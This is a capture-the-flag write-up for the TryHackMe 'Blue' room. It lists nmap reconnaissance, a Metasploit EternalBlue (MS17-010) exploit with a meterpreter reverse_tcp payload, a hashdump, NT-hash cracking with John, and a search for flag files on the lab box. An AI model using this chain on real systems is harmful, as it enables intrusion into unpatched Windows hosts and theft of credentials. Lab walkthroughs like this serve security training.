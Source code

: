 # Blue

**Room Link:** [https://tryhackme.com/room/blue](https://tryhackme.com/room/blue)

## **Walkthrough**

### **Recon**

```
nmap -A 10.10.68.22
```

``<img src="../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt="" data-size="original">``

The box is vulnerable to ms17-010

```
nmap -p135,139,445,3389 --script=vuln 10.10.68.22
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Gain Access / Escalate

```
msfconsole 
search eternalblue 
use exploit/windows/smb/ms17_010_eternalblue 
set payload windows/x64/meterpreter/reverse_tcp 
set RHOSTS 10.10.68.22 
run
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Cracking

```
hashdump
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

<figure><img src="../../.gitbook/assets/image (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

### Flags

Just ran this to find the locations of all the flags then grabbed them

```
cd C:\
dir "flag*" /s
```

<figure><img src="../../.gitbook/assets/image (5) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>
